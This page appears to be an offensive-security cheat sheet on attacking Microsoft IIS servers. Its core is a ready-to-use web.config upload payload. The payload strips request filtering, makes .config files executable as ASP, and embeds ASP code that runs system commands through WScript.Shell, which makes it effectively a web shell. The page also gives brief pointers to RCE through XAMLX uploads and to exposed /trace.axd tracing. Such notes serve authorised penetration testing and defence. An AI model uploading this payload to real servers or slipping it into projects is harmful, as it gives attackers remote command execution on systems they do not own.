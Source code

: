 ```yaml
---
title: "IIS"
description: "Exploit vulnerabilities on IIS servers"
date: 25/11/2019
categories:
 - Web
tags:
 - IIS
 - rce
 - Windows
---
```



## Bypass blacklist upload

It's possible to bypass blacklist upload while uploading a `web.config` file.
For this, you need to set execution rights to `.config` and then adding `ASP` code
in the `web.config`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("whoami")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>
```


## Upload XAMLX file to get RCE

[NCCGroup](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/august/getting-shell-with-xamlx-files/)
describes how to upload a `XAMLX` file to execute code on a remote IIS server.


## Tracing

[Tracing](https://docs.microsoft.com/en-us/previous-versions/dotnet/articles/ms972204(v=msdn.10)?redirectedfrom=MSDN)
might be activate on the server. For example, check `/trace.axd`.

